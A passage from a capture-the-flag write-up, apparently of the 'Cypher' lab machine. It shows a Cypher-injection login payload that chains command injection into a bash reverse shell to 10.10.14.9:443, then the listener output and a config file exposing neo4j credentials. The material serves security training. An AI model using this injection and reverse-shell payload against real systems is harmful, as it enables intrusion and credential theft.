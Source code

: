 After extracting the data from each column we get a user and a hashed password, a summary of the data is given below:

```
User: graphasm
SHA1: 9f54ca4c130be6d529a56dee59dc2b2090e43acf
```

We can see that there is only one user in the database alongside its hashed password, unfortunately this password does not crack with a mask or dictionary attacks, I also tried an online rainbow table dataset but it also was not abel to find it. At this stage it is pretty clear that the machine wants us to use the previous vulnerable function to get access. I found that you can call functions with cypher queries, since we have an injection we can try calling the vulnerable function to achieve remote code execution. Using the following payload I am able to establish a reverse shell.
```json
{
    "username":"' OR 1=1 CALL custom.getUrlStatusCode('http://localhost && bash -c \"bash -i >& /dev/tcp/10.10.14.9/443 0>&1\"') YIELD statusCode RETURN statusCode //",
    "password":"test"
}
```
Remember from the previous code snippet that our url parameter will become the following:

```java
String url = "http://localhost && bash -c \"bash -i >& /dev/tcp/10.10.14.9/443 0>&1\""
```

Note that we have to escape the double quotes otherwise the query will produce an error. The final code being executed is:

```sh
/bin/sh -c curl -s -o /dev/null --connect-timeout 1 -w %{http_code} http://localhost && bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1"
```
## Remote Code Execution
If we set up a netcat listener on our machine we can get the connection back as the neo4j user. 
```
sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.57] 55330
bash: cannot set terminal process group (1394): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ whoami
neo4j
```
#### Finding the Config File
This user does not have a home directory, to get the user flag we first have to read a file inside the graphasn user's home directory which contains a file containing credentials:

```yml
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```
